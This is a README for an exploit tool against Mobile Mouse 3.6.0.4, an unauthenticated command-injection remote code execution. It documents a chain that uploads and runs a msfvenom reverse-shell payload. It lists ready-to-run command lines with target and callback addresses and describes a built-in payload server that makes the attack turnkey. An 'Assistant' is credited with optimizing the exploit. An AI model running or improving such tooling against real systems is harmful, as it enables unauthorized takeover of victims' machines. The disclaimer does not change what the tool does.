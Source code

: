 # Mobile Mouse 3.6.0.4 RCE Exploit

Exploit by: [Chokri Hammedi](https://www.exploit-db.com/exploits/51010) (08/22)   
Fixed by: [lof1](https://github.com/lof1sec/mobile_mouse_rce/tree/main) (10/23)  
Updated by: x7331 (05/25)  
Optimized by: Assistant (2025)  

## Overview
This repository contains an exploit script targeting Mobile Mouse version 3.6.0.4, a remote control software for mobile devices. The exploit allows remote code execution (RCE) by leveraging an unauthenticated command injection vulnerability in the Mobile Mouse server running on port 9099.

## Original Exploit
The original exploit (dated August 9, 2022) works by uploading a crafted executable payload (usually generated manually via msfvenom) to the target machine's temporary directory and then remotely triggering its execution. The payload is served via an external HTTP server manually started by the attacker.

### What This Exploit Does
1. Connects to the Mobile Mouse service on the target IP (port 9099).
2. Sends crafted commands to upload a malicious payload (reverse shell executable) to the remote host.
3. Executes the uploaded payload, resulting in a reverse shell connection back to the attacker.
4. Requires an HTTP server serving the payload executable externally.

## Improvements & Optimizations

### Enhanced Features (Previous Updates)
1. **Integrated Payload Generation**: The script can now automatically generate the payload executable using msfvenom internally, removing the need to create the payload manually.
2. Uses a **temporary file to store the generated executable**, which is cleaned up after use.
3. **Built-in HTTP Server**: The script launches a background HTTP server to serve the generated (or user-supplied) payload. This removes the manual step of starting a separate HTTP server.

### Flexible Parameters:
Added command-line arguments to specify:

- `--target`: Target IP address (required)
- `--lhost`: Local IP for reverse shell callback (default: 127.0.0.1)
- `--lport`: Local port for reverse shell callback (default: 443)
- `--server-port`: Port number for the HTTP server serving the payload (default: 8080)
- `--payload`: Optional argument to provide a custom payload executable path
- `--verbose`: Enable verbose logging for debugging

### Improved Usage & Output:
* Structured logging with timestamps and log levels
* Clear console output for each major step and phase
* Better error handling and feedback
* Proper cleanup of temporary payload files
* Progress indicators for exploit phases

## How to Use

### Prerequisites
1. Python 3.6+ installed
2. `msfvenom` installed and available in your system path
3. Network connectivity to the target Mobile Mouse server on port `9099`

### Basic Usage
```bash
python3 mobile-mouse-rce.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```

### Advanced Usage Examples
```bash
# Basic exploit with auto-generated payload
python3 mobile-mouse-rce.py --target 192.168.1.100 --lhost 192.168.1.50 --lport 4444

# Using custom payload
python3 mobile-mouse-rce.py --target 10.0.0.5 --lhost 10.0.0.1 --lport 443 --payload /path/to/custom.exe

# Custom HTTP server port with verbose logging
python3 mobile-mouse-rce.py --target 172.16.0.10 --lhost 172.16.0.1 --lport 8080 --server-port 9090 --verbose
```

### What the Script Does
1. **Parameter Validation**: Validates all input parameters (IPs, ports, file paths)
2. **Payload Generation**: Automatically generates a reverse shell payload with `msfvenom` (if not provided)
3. **HTTP Server**: Starts a local HTTP server on the specified port to serve the payload
4. **Phase 1 - Download**: Connects to target and downloads the payload to `c:\Windows\Temp\`
5. **Phase 2 - Execute**: Reconnects and executes the downloaded payload
6. **Cleanup**: Automatically cleans up temporary files and stops the HTTP server

## Technical Details

### Exploit Flow
1. **Connection**: Establishes TCP connection to target on port 9099
2. **Authentication**: Sends connection and run commands using predefined hex patterns
3. **Command Injection**: Injects curl command to download payload from attacker's HTTP server
4. **Execution**: Injects command to execute the downloaded payload
5. **Reverse Shell**: Target connects back to attacker's listener

### Security Considerations
- The exploit targets an unauthenticated vulnerability
- Payload is downloaded to Windows temporary directory
- HTTP server includes security headers to prevent common attacks
- All temporary files are automatically cleaned up

## Disclaimer
This exploit is intended for educational purposes and authorized penetration testing only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.

## Changelog

### v3.0 (2025) - Major Optimization
- Complete code refactoring with object-oriented design
- Enhanced error handling and validation
- Improved logging and user experience
- Security improvements and better resource management
- Type hints and better code documentation

### v2.0 (2025) - Enhanced Features
- Integrated payload generation with msfvenom
- Built-in HTTP server functionality
- Improved command-line interface
- Better error handling and cleanup

### v1.0 (2022) - Original Exploit
- Basic RCE functionality
- Manual payload generation required
- External HTTP server needed
